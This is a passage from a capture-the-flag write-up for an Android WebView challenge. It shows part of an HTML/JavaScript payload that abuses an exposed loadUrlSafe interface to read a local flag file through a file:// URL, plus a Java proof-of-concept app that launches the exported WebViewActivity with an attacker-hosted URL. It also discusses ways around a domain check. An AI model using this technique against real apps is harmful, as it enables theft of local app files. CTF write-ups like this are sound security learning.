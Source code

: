 ```html
            if (obj_props && obj_props[0] === 'loadUrlSafe') {
                var interface = window_obj;
                console.log(interface);
            }
        }
        var interface_obj = window[interface]

        interface_obj.loadUrlSafe("file:///data/user/0/app.aimar.id.interfaces/files/%66%6c%61%67%2e%74%78%74")
	</script>
	</body>

</html>
```

And creating my poc app which sends the URL to the WebViewActivity.

```java
public class MainActivity extends AppCompatActivity {
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_main);

        Intent intent = new Intent();
        intent.setClassName("app.aimar.id.interfaces","app.aimar.id.interfaces.WebViewActivity");

        String url = "https://white-misty-90.tiiny.site/"; // hosted HTML content 
        intent.putExtra("url",url);
        startActivity(intent);
        }
    }
```


Initially the challenge also checks if the domain name ends with `aimar.id` in isValidURL method. But later the challenge author updated it to load any URL to prevent solvers from buying domain ending with `aimar.id` since it has only endswith check. I couldn't find any way to laod arbitrary URL if this is present. Tried all these [tricks](https://hackerone.com/reports/431002) but android parses url correctly now. Maybe they could have updated in recent APIs. Another way is find any xss in `aimar.id` host. But it is a static phpinfo page, even the php is updated to recent version. I will update here if challenge author posts any writeup.

![](../assets/2024/tcpip/tcpip3.png){:style="display:block; margin-left:auto; margin-right:auto;width=50%;height=50%"} 
